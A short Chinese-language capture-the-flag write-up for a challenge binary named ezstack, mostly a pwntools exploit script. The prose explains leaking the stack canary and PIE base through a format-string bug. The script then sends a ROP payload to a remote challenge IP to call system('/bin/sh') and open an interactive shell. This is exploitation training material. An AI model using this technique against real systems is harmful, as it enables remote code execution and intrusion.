 一道格式化字符串漏洞，查看保护可以发现 开启了PIE和 canary

通过ida可以发现后门函数 及其所需的参数。

观察程序，可以发现能够利用格式化字符串漏洞泄露地址信息和canary从而绕过其防护

再次利用格式化字符串漏洞覆盖canary和ret ，使其可以执行system("/bin/sh")



	#! /usr/bin/python3
	from pwn import*
	#io = remote("101.35.18.209",20113)
	io = remote("47.108.195.119",20113)
	#io = process('./ezstack')
	context.log_level = 'debug'
	
	#--------------------------------
	io.recvuntil("名称:")
	io.sendline("")
	io.recvuntil("名字:")
	io.sendline("")
	#--------------------------------
	
	sh = 0xB24
	system = 0xA7C
	pop_rdi = 0x000b03
	ret = 0x00000000000007c1
	#gdb.attach(io)
	io.sendline(b'%12$p%11$p')
	stack = io.recv(14)
	stack = int(stack,16)
	stack = stack & 0xfffffffffffff000
	print("stack---->"+hex(stack))
	canary = io.recvuntil('\n')[-17:]
	canary = int(canary,16)
	#gdb.attach(io)
	print("canary--->"+hex(canary))
	
	sh = stack + 0xB24
	system = stack + 0xA8C
	pop_rdi = stack + 0x000b03
	ret = stack + 0x00007c1
	
	print("sh",hex(sh))
	print("system",hex(system))
	print("pop_rdi",hex(pop_rdi))
	print("ret",hex(ret))
	
	io.recvuntil("--+--")
	#gdb.attach(io)
	io.sendline(b'a'*0x18 + p64(canary) + p64(0) + p64(pop_rdi) + p64(sh) + p64(system))
	
	io.interactive()